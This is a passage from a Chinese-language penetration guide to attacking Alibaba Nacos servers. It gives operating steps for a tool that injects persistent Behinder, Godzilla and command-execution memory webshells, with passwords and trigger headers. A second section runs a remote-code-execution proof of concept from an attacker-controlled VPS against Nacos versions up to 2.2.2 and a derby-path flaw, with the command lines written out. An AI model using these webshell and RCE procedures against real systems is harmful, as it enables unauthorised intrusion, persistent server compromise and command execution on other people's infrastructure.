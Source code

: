 4、密码是pass 和 key  
> 三、CMD内存马：  
  
1、需要设置请求头x-client-data:cmd  
  
2、设置Referer:https://www.google.com/  
  
3、请求头cmd:要执行的命令  
  
v0.5版本实现了：  
  
1、不出网漏洞利用  
  
2、可多次发起漏洞利用  
  
3、同时注入冰蝎/哥斯拉/CMD内存马  
  
4、内存马对nacos多版本进行了兼容  
> tips:  
  
1、请用jdk1.8  
  
2、适用于 Nacos 2.x <= 2.2.2  
  
3、非集群的也能打哦  
  
4、此内存马重启nacos依然存活  
> 关于Windows  
  
如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件  
> java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows  
> 如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功  
  
windows 没打成功也许是因为没权限操作C盘或其他原因  
  
## 9. Nacos RCE  
  
这个漏洞涉及两个路径，其中derby其实就是CVE-2021-29441  
> /nacos/v1/cs/ops/data/removal  
  
/nacos/v1/cs/ops/derby  
  
  
测试版本：nacos1.4.0（2.3.2也成功），默认状态  
  
下载poc：GitHub - FFR66/Nacos_Rce: 网传nacos_rce漏洞poc，并上传到vps上  
  
1. 在vps启动  
> python service.py  
  
  
![1745678823_680cf1e7556484031a24f.png!small?1745678824303](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaWCv6qSfg23ASNYSL5vdeFjKurgdMJaMIsSvLzUicg205IKoic1GHKsLQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
默认会在5000端口打开服务  
  
然后本地机器上执行poc  
  
当系统为未授权访问时，可直接触发RCE  
> Nacos_Rce.py -t 192.168.67.129 -p 5000 -u http://192.168.67.134:8848 -c whoami  
  
#-t vps ip  
> #-p 端口地址  
  